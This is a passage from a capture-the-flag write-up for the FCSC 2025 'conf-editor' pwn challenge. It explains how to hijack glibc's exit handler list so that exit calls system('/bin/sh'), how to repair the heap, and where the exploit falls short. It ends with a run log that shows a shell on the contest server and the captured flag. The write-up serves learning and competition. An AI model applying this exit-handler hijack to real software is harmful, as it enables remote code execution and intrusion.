 ```
	    void (*fn) (void *arg, int status);
	    void *arg;
	    void *dso_handle;
	  } cxa;
      } func;
  };
```

One particular "flavour" of interest is the `ef_cxa`, since the expected exit handler has prototype `void (*fn) (void *arg, int status)` and since its argument `arg` can be controlled too.

By default, there is a single registered `exit_function` in a single `exit_function_list`, located in libc's `.data` section (defined as a global variable in https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/cxa_atexit.c#L75). So we can simply overwrite add a handler to the list with our own function (`system`) and argument (`/bin/sh`, located in libc), and boom, `exit` should launch a shell for us!

### Part VII. Restore heap

Last part, pretty short. Simply restore heap so that all the calls to `free` wont make the program crash. For this purpose, I crafted a fake chunk of size `0x20` inside `M` and wrote its address to `P->value`.

## Results

The final exploit does not work 100% of time since it will fail to write any address containing a whitespace (`0x20`). Also, if we're not lucky some ASLR offset might contain a zero, which wont be dumped and the leak attempt will fail. The exploit takes almost 2 minutes to run, so there was a compromise to find to avoid the server kicking us out of the connection.


```
➜  06-conf-editor git:(master) ✗ python expl.py 
[*] '/home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/06-conf-editor/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[*] '/home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/06-conf-editor/ld-linux-x86-64.so.2'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[*] Loaded 219 cached gadgets for './libc.so.6'
[+] Opening connection to chall.fcsc.fr on port 2103: Done

<lot of stuff printed out>

-- Main Menu --
1. Import Config
2. Edit config
3. Quit
> $ ls
editeur-de-configuration
flag.txt
$ cat flag.txt
FCSC{4e488d31cbb9fe91250c8a239a66d9d7393cc1d90b137dcf71323e81aa1d30d3}
```

Awesome :smile:
